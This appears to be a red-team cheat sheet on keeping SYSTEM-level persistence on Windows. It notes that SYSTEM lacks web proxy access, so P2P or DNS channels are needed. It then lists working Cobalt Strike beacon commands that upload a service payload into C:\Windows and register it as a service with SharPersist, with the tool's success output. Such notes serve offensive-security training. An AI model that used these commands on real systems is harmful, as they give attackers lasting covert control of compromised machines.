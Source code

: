 # Elevated SYSTEM Persistence

## Introduction

In Windows, the SYSTEM user is often restricted from interacting with web proxies fora combination of security & operational reasons. When maintaining SYSTEM persistence, we'll have to use P2P or DNS for communication.

## Windows Services

We can use SharPersist & Cobalt Strike to create & upload a new service and beacon payload.

#### Upload Payload

```
beacon> cd C:\Windows
beacon> upload C:\Payloads\tcp-local_x64.svc.exe
beacon> mv tcp-local_x64.svc.exe persistent-svc.exe
```

#### Maintain Persistence - SharPersist

```
beacon> execute-assembly C:\Tools\SharPersist.exe -t service -c "C:\Windows\persistent-svc.exe" -n "persistent-svc" -m add

[*] INFO: Adding service persistence
[*] INFO: Command: C:\Windows\persistent-svc.exe
[*] INFO: Command Args: 
[*] INFO: Service Name: persistent-svc

[+] SUCCESS: Service persistence added
```
